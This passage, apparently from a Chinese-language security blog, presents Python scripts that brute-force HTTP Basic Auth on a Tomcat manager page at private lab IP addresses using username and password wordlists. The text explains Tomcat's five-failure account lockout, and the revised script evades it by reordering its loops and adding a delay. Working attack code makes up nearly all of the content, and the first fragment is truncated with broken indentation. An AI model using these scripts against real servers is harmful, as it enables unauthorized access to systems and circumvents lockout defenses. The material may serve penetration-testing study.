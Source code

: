 ```
   authorCon=base64.b64encode((name.rstrip()+":"+passwd.rstrip()).encode("utf-8"))  
   # print(authorCon.decode("utf-8"))  
   headers["Authorization"]="Basic "+authorCon.decode("utf-8")  
   res=requests.get(url,headers=headers,proxies=proxies)  
   # print(res.request.headers)  
   print(name.rstrip() + ":" + passwd.rstrip(),res.status_code)  
   if res.status_code!=401:  
    print("[*]密码爆破成功！"+name,passwd)  
    break 
  else:
   continue
  break 
  
if __name__ == '__main__':  
blast_passwd("http://192.168.23.22:8989/manager/html")


```  
  
正确的账户和密码都在字典里面，发现所有响应的状态码都是401，不应该啊，于是查了一下，发现tomcat自带账户封禁策略，当一个账户的登入失败次数超过5次之后，将会使该用户封禁5分钟，并且在下一个5分钟之内没有新的登入失败的话，会重新从0计次，这个还真棘手，但是也可以解决，只需要改一下代码遍历的顺序即可，前提是字典的用户名数量要足够多，下面是更改之后的代码  
```
import base64
import time

import requests


def blast_passwd(url):
    headers={
  "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
  "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
  "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
  "Accept-Encoding": "gzip, deflate",
  "Connection": "keep-alive",
  "Upgrade-Insecure-Requests": "1",
  "Authorization": "Basic "
}
    with open("username.txt","r") as f:
        usernames=f.readlines()
    with open("passwd.txt","r")  as f:
        passwds=f.readlines()
    for passwd in passwds:
        for name in usernames:
            authorCon=base64.b64encode((name.rstrip()+":"+passwd.rstrip()).encode("utf-8"))
            # print(authorCon.decode("utf-8"))
            headers["Authorization"]="Basic "+authorCon.decode("utf-8")
            res=requests.get(url,headers=headers)
            time.sleep(0.5)
            # print(res.request.headers)
            print(name.rstrip() + ":" + passwd.rstrip(),res.status_code)
            if res.status_code!=401:
                print("[*]密码爆破成功！"+name,passwd)
                break
        else:
            continue
        break

if __name__ == '__main__':
    blast_passwd("http://172.28.218.106:8989/manager/html")

```  